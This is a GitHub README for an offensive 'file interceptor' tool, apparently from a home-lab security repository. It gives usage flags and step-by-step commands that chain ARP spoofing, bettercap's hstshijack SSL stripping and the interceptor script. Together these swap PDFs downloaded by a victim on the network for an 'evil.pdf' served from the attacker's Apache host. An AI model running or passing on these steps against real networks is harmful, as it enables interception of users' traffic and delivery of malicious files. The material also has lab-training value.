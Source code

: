 # File interceptor

## Requirements

* Root access
* Python 3
* Scapy and NetfilterQueue modules

## Usage

```shell
usage: file_interceptor.py [-h] [-e EXTENSION] [-d DESTINATION] [-u URL]

File replacement tool (use Bettercap hstshijack/hstshijack for sslstripping)

optional arguments:
  -h, --help            show this help message and exit
  -e EXTENSION, --extension EXTENSION
                        File extension
  -d DESTINATION, --destination DESTINATION
                        sslstrip, forward, or local
  -u URL, --url URL     Replacement url

Example: 
            file_interceptor.py # replace a .pdf with an evil.pdf file in location apache2 server on kali, sslstrip
            file_interceptor.py -e .pdf -u 192.168.122.108/evil/evil.pdf            # replace a .pdf file
            file_interceptor.py -e .pdf -u 192.168.122.108/evil/evil.pdf -d local   # test replacing a .pdf file
                                                                                                                      
```

## Kicking the tyres

* Choose what type of file to replace, and make sure you have a replacement file in `/var/www/html/evil/`
* Run the [arp_spoofer.py script](/layer2/arp_spoofer)

```shell
    @kali:~$ sudo python3 arp_spoofer.py
    [sudo] password for <user>: 
    [+] Setting forward
    [+] Packets sent: 63
```
* Run `bettercap` (also see the Troubleshooting section below)

```shell
    @kali:~$ sudo bettercap -iface eth0 -caplet hstshijack/hstshijack
```
* Run the `file_interceptor.py` script. Defaults are set to replace a .pdf with an evil.pdf file in the `/var/www/html/evil/` location of the Kali `apache2` server on the Kali VM, and using `sslstrip`.

```shell
    @kali:~$ sudo python3 file_interceptor.py 
```
And test file is replaced on Windows machine. Clear cache and history of browser first!

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)
* [Bettercap sslstrip not working](https://github.com/tymyrddin/ymrir/wiki/bettercap.md)
* [Undesired HTTPS redirects](https://github.com/tymyrddin/ymrir/wiki/https-browser.md)
* [Correctly configured HSTS](https://github.com/tymyrddin/ymrir/wiki/hsts.md)